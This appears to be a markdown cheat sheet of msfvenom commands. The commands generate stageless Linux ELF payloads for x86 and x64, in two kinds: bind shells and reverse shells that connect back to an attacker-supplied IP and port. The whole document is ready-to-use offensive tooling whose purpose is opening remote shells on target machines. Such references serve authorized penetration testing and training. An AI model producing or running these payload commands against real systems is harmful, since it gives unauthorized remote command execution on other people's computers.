 # Stageless

## 01 - Bind Shells

1. x86 (32-bit) Payloads

```
$ msfvenom -p linux/x86/shell_bind_tcp lport=<PORT> -f elf -o shell-x86
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p linux/x64/shell_bind_tcp lport=<PORT> -f elf -o shell-x86-64
```

## 02 - Reverse Shells

1. x86 (32-bit) Payloads

```
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p linux/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64
```